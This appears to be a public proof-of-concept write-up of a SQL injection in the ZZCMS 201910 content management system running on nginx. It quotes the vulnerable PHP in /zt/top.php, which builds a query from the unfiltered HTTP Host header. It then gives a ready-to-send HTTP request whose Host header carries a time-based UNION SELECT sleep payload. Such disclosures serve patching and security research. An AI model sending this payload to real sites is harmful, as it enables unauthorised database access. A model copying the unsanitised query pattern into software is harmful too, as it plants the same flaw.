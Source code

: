 ## ZZCMS sql injection in nginx server

## PoC by britzlieg

#### ZZCMS the 201910 version download page : 
http://www.zzcms.net/about/6.htm

#### zip installer:
http://www.zzcms.net/download/zzcms201910.zip

### vulnerability code:

In file `/zt/top.php`, line 5


```php
<?php
//echo $_SERVER['REQUEST_URI'];
$editor=isset($_REQUEST['editor'])?$_REQUEST['editor']:'';
$editor=substr($_SERVER['HTTP_HOST'],0,strpos($_SERVER['HTTP_HOST'],'.'));//从二级域名中获取用户名
$rs=query("select * from zzcms_userdomain where domain='".$_SERVER['HTTP_HOST']."' and passed=1 and del=0");//从顶级级域名中获取用户名
$row=num_rows($rs);
if (!$row){
	$row=fetch_array($rs);
	$editor=$row["username"];
}
$id=isset($_REQUEST['id'])?$_REQUEST['id']:0;
checkid($id,1);
...
```

in line 5,developer use `$_SERVER['HTTP_HOST']` in sql code without a filter, and this variable can be controled by attacker in nginx server. All page include `/zt/top.php` will be affected, here is an example named `/zt/news.php`.

```php
<?php
include("../inc/conn.php");
include("../inc/fy.php");
include("top.php");
include("bottom.php");
include("left.php");
...
```

#### POC:
```http
GET /zt/news.php?id=1&editor=cad HTTP/1.1
Host: 127.0.0.1:8211' union select sleep(8),1,2,3,4#-- '
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 186
Origin: http://127.0.0.1:8211
DNT: 1
Connection: close
Referer: http://127.0.0.1:8211/user/job.php?do=add
Cookie: bigclassid=0; province=%E5%8C%97%E4%BA%AC; city=%E5%B8%82%E8%BE%96%E5%8E%BF; __tins__713776=%7B%22sid%22%3A%201594217719660%2C%20%22vd%22%3A%205%2C%20%22expires%22%3A%201594220164112%7D; __51cke__=; __51laig__=14; bdshare_firstime=1594189355036; PHPSESSID=o78er4gbaan24nhv4a2oldnf18; UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6; admin=admin; pass=21232f297a57a5a743894a0e4a801fc3
Upgrade-Insecure-Requests: 1

jobname=1&sm=1&province=%E5%8C%97%E4%BA%AC&city=%E5%B8%82%E8%BE%96%E5%8C%BA&xiancheng=%E4%B8%9C%E5%9F%8E%E5%8C%BA&action=add&Submit=%E5%A1%AB%E5%A5%BD%E4%BA%86%EF%BC%8C%E5%8F%91%E5%B8%83

```


#### jinject code
![](https://rawcdn.githack.com/britzlieg/POC/68c98bcf9159677c24aa102620416513868a27bf/res/zzcms201910/a.jpg)

#### sleep(8)
![](https://rawcdn.githack.com/britzlieg/POC/68c98bcf9159677c24aa102620416513868a27bf/res/zzcms201910/1.jpg)

#### sleep(1)
![](https://rawcdn.githack.com/britzlieg/POC/68c98bcf9159677c24aa102620416513868a27bf/res/zzcms201910/2.jpg)